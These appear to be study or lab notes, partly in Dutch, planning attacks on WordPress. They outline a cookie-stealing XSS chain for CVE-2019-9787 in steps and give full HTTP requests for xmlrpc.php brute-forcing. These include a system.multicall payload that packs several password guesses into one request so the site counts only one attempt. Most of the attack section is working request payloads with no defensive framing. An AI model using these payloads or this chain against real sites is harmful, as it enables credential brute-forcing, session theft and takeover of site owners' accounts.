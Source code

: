 **Current choice**

Remote code execution on wordpress 2019 https://www.cvedetails.com/cve/CVE-2019-9787/ - SCORE 6.8 - COMPLEXITY: medium

    WordPress before 5.1.1 does not properly filter comment content, leading to Remote Code Execution by unauthenticated users in a default configuration. This occurs because CSRF protection is mishandled, and because Search Engine Optimization of A elements is performed incorrectly, leading to XSS. The XSS results in administrative access, which allows arbitrary changes to .php files. This is related to wp-admin/includes/ajax-actions.php and wp-includes/comment.php.

Needs wordpress before 5.1.1 https://wordpress.org/download/releases/#branch-50  
Use the 5.0.0 version

Host wordpress website, 
wordpress needs sql server
Create XSS javascript code that steals the cookie
Make admin look at comment
Inject cookie into server

https://www.youtube.com/watch?v=BfKK-pNmI6Y



**EXTRA** 

Wordpress bruteforce and ddos vulnerability 
/xmlrpc.php attack

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 85


        PAYLOAD 2: 

        <methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 164

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>



MULTICALL om meerdere tegelijkertijd te proberen , ookal showed het dan maar op als 1 try voor wordpress zelf
        
        <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>


https://www.cvedetails.com/cve/CVE-2020-28035/
https://www.cvedetails.com/cve/CVE-2020-28036/
https://www.youtube.com/watch?v=bZQ6vuFioZQ

Via xmlrpc can you proberen inloggen en meerdere passwords en logins proberen tegelijkertijd. 


